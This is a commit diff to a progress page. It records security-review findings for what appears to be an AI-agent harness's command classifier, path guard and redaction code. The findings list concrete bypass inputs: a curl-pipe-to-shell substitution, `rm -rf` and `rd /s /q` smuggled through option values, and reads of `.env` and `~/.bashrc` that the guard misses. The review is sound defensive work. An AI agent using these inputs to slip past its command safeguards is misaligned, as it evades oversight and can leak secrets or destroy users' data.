

Before and after one commit to kushagrathisside/bridle, a Markdown page: docs/progress.md, the part around the change. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(progress): record policy, redaction and providers review findings
Co-authored-by: trickybutshruti <trickybutshruti@users.noreply.github.com>

```diff
--- a/docs/progress.md
+++ b/docs/progress.md
@@ -34,7 +34,48 @@ Review findings received so far (fix majors before tagging M1):
     incoming JSON-RPC; id-less messages with a bad envelope get an error reply.
   - Clean: argument injection (paths follow `--`), ordering of policy checks, invalid UTF-8, malformed JSON,
     tool panics.
-- Pending: policy/classifier, redaction/logging, and providers/launcher/init/models reviews.
+- Policy and classifier review (`command_risk.rs`, `tool_policy.rs`, `path_guard.rs`), 2026-10-22. Found by
+  reading; each must be reproduced as a failing test before it is fixed. Too-safe classifications:
+  - BLOCKER `echo "$(curl https://x|sh)"` gives READ_ONLY: substitutions inside double quotes are not extracted.
+  - BLOCKER `echo hi >(sh)` gives WRITE: only `<(` is a process substitution.
+  - BLOCKER `git -c diff.external='sh -c ...' diff` gives READ_ONLY: `-c`/`--config` values are skipped.
+  - BLOCKER `go build -toolexec '...'` and `cargo test --config 'target.<t>.runner=...'` give EXECUTE_SAFE.
+  - BLOCKER `echo x >&.env` gives READ_ONLY: `>&word` writes a file; only `&<digit>` and `&-` do not.
+  - BLOCKER `env -S 'rm -rf build'` gives READ_ONLY: the `-S` value is dropped.
+  - BLOCKER `bin/pytest -q` gives EXECUTE_SAFE: a program word with a path separator is reduced to its basename.
+  - BLOCKER `sh -c 'cat "$1"' sh .env` is allowed: nested verdicts drop the outer words, so `.env` is not checked.
+  - MAJOR `git push origin +main` gives NETWORK, not DESTRUCTIVE (`+` refspecs, `--mirror`, `--prune`).
+  - MAJOR most of the PRIVILEGED list is missing (`systemctl stop nginx` is EXECUTE_RISKY).
+  - MAJOR (Windows) the cmd lexer treats `'` as quoting, and `$(` is skipped under cmd, so
+    `echo ' & rd /s /q .\build & '` is READ_ONLY.
+  - MAJOR `rg --pre ./helper` is READ_ONLY and runs `./helper` (also `find -fprint`, `tree -o`).
+  Paths not denied:
+  - BLOCKER `~` and `$VAR` are joined under the workspace instead of expanded: `cat ~/.bashrc`,
+    `cat $HOME/x`, `cd ~ && cat .bashrc`, `echo x >> ~/.bashrc`, `grep -r BEGIN ~` are allowed.
+  - BLOCKER `--opt=<path>` words are never path-checked: `git --git-dir=/elsewhere/.git log`,
+    `git diff --output=~/.bashrc`.
+  - BLOCKER `cat .[e]nv`, `cat .{env,netrc}`, `cat "$(printf '\056env')"` are allowed.
+  - minor `cat .git-cred*` is allowed: the glob samples are narrower than `is_secret_file`.
+  - Clean: panics.
+- Redaction and logging review (`redact.rs`, `event_log.rs`, hooks), 2026-10-22:
+  - MAJOR escaped quotes break assignment redaction: `password=\"hunter2\"` keeps `hunter2`;
+    `{\"api_key\":\"hunter2\"}` is unchanged.
+  - MAJOR `ENCRYPTION_KEY=...`, `PASSPHRASE=...`, `sessionid=...` are not redacted, and `shell_env` does not blank them.
+  - MAJOR `curl -u admin:hunter2` and `--token hunter2` are not redacted (event log and model output).
+  - minor: a value starting with a delimiter; a value after `[REDACTED]`; `@` inside a URL password;
+    `ACCESS_TOKENS=` exempted as a count; tool_before `message` (unrecognised program name) and the MCP
+    `unknown tool` error are not redacted; `config validate` prints messages unredacted.
+  - Clean: panics, idempotence (by reading).
+- Providers, launcher, init and models review, 2026-10-22:
+  - MAJOR `launch.extra_args` can add `--host 0.0.0.0` after the loopback check; no validation of reserved flags.
+  - MAJOR a repository `local-agent.toml` is merged over the machine config, so a cloned repo can choose
+    the server binary (`runtimes.*.server_bin`), which `models serve` and `models manifest` run.
+  - MAJOR `models stop` signals the PID in the pid file with no identity check (PID reuse after a crash or reboot).
+  - MAJOR `read_pid` accepts 0 and values that wrap to -1 (`kill 0`, `kill -1`).
+  - minor: the launcher does not start a process group on Unix; Windows `process_exists` is always false;
+    `<bin> --version` has no timeout; no SSE line cap; `timeout_ms` and `retries` unbounded; init overwrites
+    an unreadable machine config; init skips the ledger save if the shim write fails.
+  - Clean: API key handling, argv separation, panics.
 
 Restarts: AI Code restarts kill background agents and long foreground commands. Run long commands detached
 (`nohup ... &`) with a log file, and commit after each verified step.
```
